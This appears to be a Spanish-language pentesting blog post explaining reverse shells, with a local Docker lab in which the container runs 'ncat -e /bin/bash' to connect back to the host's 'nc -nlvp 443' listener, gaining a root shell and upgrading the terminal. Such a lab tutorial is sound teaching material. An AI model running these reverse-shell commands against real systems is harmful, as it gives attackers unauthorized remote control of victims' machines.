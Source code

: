 ```yaml
---
layout: single
title: Reverse Shell
data 2025-02-27
header:
    teaser: /assets/images/slea32.png
categories:
    - Exploits
    - Shells
tags:
    - Reverse Shell
    - Remote Access
    - Network Attack
    - Command Execution
    - Shell Access
    - Pentesting
    - Hacking
    - Payload
---
```

Es un tipo de conexión remota que permite a un acatacante tomar el control de un sistema objetivo, pero de una manera un poco diferente a lo de una shell tradicional. En lugar que el atacante se conecte directamente al sistema objetivo (como una **Bind Shell**), el sistema objetivo unicia la conexión hacia el atacante, y es el atacante quien escucha esa conexión para tomar el control.

### Cómo funciona una Reverse Shell?:
El concepto detrás de la **Reverse Shell** es que un atacante configura un servidor (escuchando en un puerto determinado) y el sistema comprometido **se conecta de vuelta** al atacante, estableciendo la shel interactiva.
1. **El atacante** configura configura un servidor (escuchando en puerto en específico) en su máquina.
2. **El objetivo (víctima)** ejecuta el comando malicioso (por ejemplo, una vulnerabilidad explotada en una aplicación), lo que hace que el sistema comprometido inicie la conexión hacia el servidor del atacante.
3. una vez establecida la conexión, el atacante puede ejecutar **comandos remotos** en la máquina comprometido a través de la shell que se ha abierto.

---

### Reverse Shell en entorno controlado
Creamos un `Dockerfile`
```Dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
### máquina víctima
```bash
docker build -t my_image .
docker run -dit -p 80:80 --name myContainer my_image
docker exec -it myContainer bash
```
**Instalamos netcat en el contenedor**
```bash
apt install ncat
```

**Ponemos la IP de la maquina del contenedor la sacamos con nuestra máquina**:
```bash
ip addr | grep "docker0"
```

**Salida**
```bash
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
6: vethc67c219@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
``` 

**Desde el contenedor nos ponemos en escucha**:
```bash
ncat -e /bin/bash 172.17.0.1 443
```


### máquina atacante
**Abrimos una nueva ventana como `root`** nos ponemos en escucha:
```bash
nc -nlvp 443
```
`-n` para que no me aplique resolucion DNS
`-l` es escuchar (listen)
`-v` modo detallado (verbose)
`-p` especifica el puerto 

**Salida**
```bash
Connection from 172.17.0.2:53782
```
*Estamos conectados*

**Probamos haciendo**:
```bash
whoami
root
hostname -I
172.17.0.2
```

**Podemos verlo mejor la terminal hacemos un**:
```bash
script /dev/null -c bash
```

